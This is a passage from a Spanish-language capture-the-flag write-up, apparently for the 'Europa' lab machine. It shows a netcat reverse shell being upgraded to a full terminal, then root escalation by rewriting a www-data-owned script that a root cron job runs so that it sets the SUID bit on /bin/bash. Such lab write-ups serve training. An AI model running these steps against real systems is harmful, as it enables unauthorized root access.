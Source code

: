 ```bash
www-data@europa:/var/www/admin$ ^Z
CTRL + Z
[1]  + 6002 suspended  nc -nlvp 443

$ stty raw -echo;fg
[1]  + 6002 continued  nc -nlvp 443
ENTER
www-data@europa:/var/www/admin$ export TERM=xterm
www-data@europa:/var/www/admin$ export SHELL=bash
www-data@europa:/var/www/admin$ stty rows 48 columns 238
www-data@europa:/var/www/admin$ ls
dashboard.php  data  db.php  dist  index.php  js  login.php  logout.php  logs  tools.php  vendor
www-data@europa:/var/www/admin$
```
# Shell como root
Enumerando encuentro que un script de ejecuta cada minuto en crontabs.
```bash
www-data@europa:/var/www/admin$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *	root	/var/www/cronjobs/clearlogs
www-data@europa:/var/www/admin$
```
Al enumerar el arhivo veo que ejecuta el contenido de otro archivo el cual me pertenece.
```bash
www-data@europa:/var/www/admin$ cat /var/www/cronjobs/clearlogs
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
www-data@europa:/var/www/admin$ ls -la /var/www/cmd/logcleared.sh
-rw-r--r-- 1 www-data www-data 32 May  8 20:48 /var/www/cmd/logcleared.sh
```
Entonces modifico el contenido de este archivo
```bash
www-data@europa:/var/www/admin$ nano /var/www/cmd/logcleared.sh
www-data@europa:/var/www/admin$ chmod +x /var/www/cmd/logcleared.sh
www-data@europa:/var/www/admin$ cat /var/www/cmd/logcleared.sh
#!/bin/bash

chmod +s /bin/bash
```
Y despues de un minuto encuentro el permiso s en el binario /bin/bash
```bash
www-data@europa:/var/www/admin$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
```
